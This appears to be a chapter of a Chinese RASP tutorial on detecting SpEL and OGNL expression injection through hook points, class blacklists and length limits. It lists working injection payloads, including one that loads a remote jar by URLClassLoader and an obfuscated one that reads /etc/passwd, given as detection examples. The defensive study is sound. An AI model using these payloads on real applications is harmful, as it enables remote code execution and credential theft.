







## 10.4 Hook点与检测算法

一般的，我们只需要获取原始表达式，然后对原始的表达式做关键字符串匹配即可，如果存在指定的特征如命令执行的相关的类，可以简单判定该表达式是否为攻击。
这种检测算法很容易被特殊字符或者特殊语法绕过，如下例子：

```java
// 常规的写法：调用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 短名称写法： java.lang包下的类可以省去包名称，只保留类名称       
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
```
如果检测算法设定的黑名单为字符串`java.lang.Runtime`，而短名称的写法可以实现对黑名单的绕过。

仔细分析OGNL的高版本代码，存在如下代码对执行类的校验：



如果被反射的方法来源于`Runtime`、`ClassLoader` 和 `ProcessBuilder`等，将会抛出异常阻断表达式的执行。

这给我们RASP的Hook点的选择一个很好的提示，Hook类的选择应该关注实际加载的类和执行的方法，而不仅仅是表达式本身。
下面将介绍SpEL和OGNL的Hook点的选择

### 10.4.1 Hook点的选择

+ SPEL表达式Hook点选择

选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法。
该方法的源码如下，通过前面对源码的分析，Hook该方法能够获取需要执行的原始表达式的值。


从源码分析可以知道SPEL表达式的方法的执行分为2步：第一步是查找类的Class对象，即调用
org.springframework.expression.spel.support.StandardTypeLocator的findType方法，Hook该方法能够获取需要加载的类。



第二步是反射调用方法，表达式中方法的执行最终都在org.springframework.expression.spel.support.ReflectiveMethodExecutor类的execute方法完成，
其源码如下，Hook该方法能够获取被反射的类和方法。



+ OGNL表达式Hook点选择

选择Hook `ognl.Ognl`类的parseExpression方法来获取原始表达式的值，该方法的源码如下：



从源码分析可以知道`ognl.OgnlRuntime`类的invokeMethod负责方法调用，其源码如下：



而`ognl.OgnlRuntime`类的callConstructor方法则负责调用构造器方法，其源码如下：




### 10.4.2 表达式注入与检测算法

由于OGNL与SpEL表达式除了Hook点不一样，检测算法几乎一样，这里以SpEL表达式的检测算法为例子说明。

### 10.4.2.1 具备攻击能力的SpEL表达式举例

常见的具备攻击能力的表达式写法如下：
```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

### 10.4.2.2 类与方法黑名单

通过检测表达式执行过程中加载的类和反射调用的方法，比较容易的识别表达式执行是否存在攻击。
```java
java.lang.Runtime
java.lang.ProcessBuilder
java.lang.UNIXProcess
java.lang.ProcessImpl
java.lang.Classloader
java.lang.Class
java.lang.Thread
java.lang.ThreadGroup
java.lang.System
java.net.URL
java.net.URLClassLoader
javax.naming.InitialContext
javax.script.ScriptEngineManager
org.springframework.cglib.core.ReflectUtils
// ...
```


### 10.4.2.3 表达式最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的Poc如下，显然其长度超过了正常表达式的长度。
一般应用的表达式不会太长，因此可以对表达式的长度做一个限制，例如OpenRasp中采用了这个算法。
如SpEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```
